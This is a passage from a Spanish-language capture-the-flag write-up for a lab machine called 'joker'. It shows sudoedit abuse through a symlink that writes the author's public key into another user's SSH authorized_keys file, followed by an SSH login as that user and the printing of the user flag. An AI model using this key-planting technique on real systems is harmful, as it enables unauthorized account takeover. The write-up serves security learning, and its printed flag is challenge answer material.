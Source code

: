 Pero en este caso es un rabbit hole, ya que ninguno de estos dos usuarios tiene capacidad de escritura en ```/var/www/``` y no se puede crear el directorio ```.nano```

```null
Unable to create directory /var/www/.nano: Permission denied
```

Sin embargo, se puede crear un arhivo en el directorio actual para hacerle un enlace simbólico a las authorized_keys de ```alekos```, ya que tengo capacidad de lectura

```null
werkzeug@joker:~/testing/pwned$ ls -l /home/alekos/.ssh/authorized_keys 
-rw-r--r-- 1 alekos alekos 0 May 20  2017 /home/alekos/.ssh/authorized_keys
```

Copio mi clave pública a ese archivo, abusando del ```sudoedit```

```null
werkzeug@joker:~/testing/pwned$ touch layout.html
werkzeug@joker:~/testing/pwned$ ln -s -f /home/alekos/.ssh/authorized_keys layout.html 
werkzeug@joker:~/testing/pwned$ sudoedit -u alekos /var/www/testing/pwned/layout.html
```

Me conecto por SSH a la máquina víctima como ```alekos```

```null
ssh alekos@10.10.10.21
The authenticity of host '10.10.10.21 (10.10.10.21)' can't be established.
ED25519 key fingerprint is SHA256:DCu3UkgWPWIZMeHG1ck01N+KJZq+0tvFq3qjzzplJlk.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.21' (ED25519) to the list of known hosts.
Welcome to Ubuntu 16.10 (GNU/Linux 4.8.0-52-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Sat May 20 16:38:08 2017 from 10.10.13.210
alekos@joker:~$ 
```

Puedo visualizar la primera flag

```null
alekos@joker:~$ cat user.txt 
91176299aef153ab7633a0eb22722bd8
```

Dentro del directorio ```backup``` hay varios archivos comprimidos

```null
alekos@joker:/var/www/testing$ cd ~/backup/
alekos@joker:~/backup$ ls
dev-1514134201.tar.gz  dev-1676637301.tar.gz  dev-1676637901.tar.gz  dev-1676638501.tar.gz  dev-1676639101.tar.gz  dev-1676639701.tar.gz  dev-1676640301.tar.gz  dev-1676640901.tar.gz
dev-1514134501.tar.gz  dev-1676637601.tar.gz  dev-1676638201.tar.gz  dev-1676638801.tar.gz  dev-1676639401.tar.gz  dev-1676640001.tar.gz  dev-1676640601.tar.gz  dev-1676641202.tar.gz
```
